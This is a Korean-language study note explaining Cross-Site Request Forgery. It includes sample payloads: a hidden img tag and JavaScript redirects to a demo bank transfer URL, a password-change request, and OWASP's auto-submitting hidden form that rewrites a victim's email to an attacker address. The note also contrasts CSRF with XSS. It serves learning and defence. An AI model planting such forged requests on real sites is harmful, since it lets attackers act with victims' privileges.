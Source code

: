 # Concept
교차 사이트 요청 위조(Cross Site Request Forgery, CSRF)
CSRF는 임의 이용자의 권한으로 임의 주소에 HTTP 요청을 보낼 수 있는 취약점

그럴듯한 웹 페이지를 만들어서 이용자의 입력을 유도하고, 
이용자가 값을 입력하면 이를 은행이나 중요 포털 사이트 등으로 전송하여 
마치 이용자가 동의한 것 같은 요청을 발생

CSRF 공격에 성공하기 위해서는 공격자가 작성한 악성 스크립트를 이용자가 실행해야함
공격자가 이용자에게 메일을 보내거나 게시판에 글을 작성해 
이용자가 이를 조회하도록 유도하는 방법이 있음

주로 이미지를 불러오는 img 태그를 사용하거나 
웹 페이지에 입력된 양식을 전송하는 form 태그를 사용함


---
# Example1
- HTML img 태그 공격 코드 예시
```html
<img src='http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337' width=0px height=0px>
```

- Javascript 공격 코드 예시
```js
/* 새 창 띄우기 */
window.open('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');
/* 현재 창 주소 옮기기 */
location.href = 'http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=dreamhack&amount=1337');

<img src=`/changepw?userid=admin&userpw=a` width=0px height=0px>
```


# Example2
- OWASP에 있는 시나리오
- PHP에서 아래와 같은 폼 태그가 있다고 했을 때, `profile.php`에서 세션을 검사하더라도 html을 작성할 수 있는 포인트가 있으면 사용자 의도와 관계없이 변조된 요청을 보낼 수 있게 됨

```php
<form action="/url/profile.php" method="post">  
<input type="text" name="firstname"/>  
<input type="text" name="lastname"/>  
<br/>  
<input type="text" name="email"/>  
<input type="submit" name="submit" value="Update"/>  
</form>
```

```php
<SCRIPT>  
function SendAttack () {

form.email = "attacker@example.com";  
_// send to profile.php_  
form.submit();

}  
</SCRIPT>  
  
<BODY onload="javascript:SendAttack();">  
  
<form action="http://victim.example.com/profile.php" id="form" method="post">  
<input type="hidden" name="firstname" value="Funny">  
<input type="hidden" name="lastname" value="Joke">  
<br/>  
<input type="hidden" name="email">  
</form>
```

---




# Difference between XSS and CSRF
두 개의 취약점은 공격에 있어 서로 다른 목적을 가짐

XSS는 인증 정보인 세션 및 쿠키 탈취를 목적으로 하는 공격
공격할 사이트의 오리진에서 스크립트를 실행시킴

CSRF는 이용자가 임의 페이지에 HTTP 요청을 보내는 것을 목적으로 하는 공격
공격자는 악성 스크립트가 포함된 페이지에 접근한 이용자의 권한으로 웹 서비스의 임의 기능을 실행할 수 있음


# Reference
[OWASP](!https://cwe.mitre.org/data/definitions/352.html)

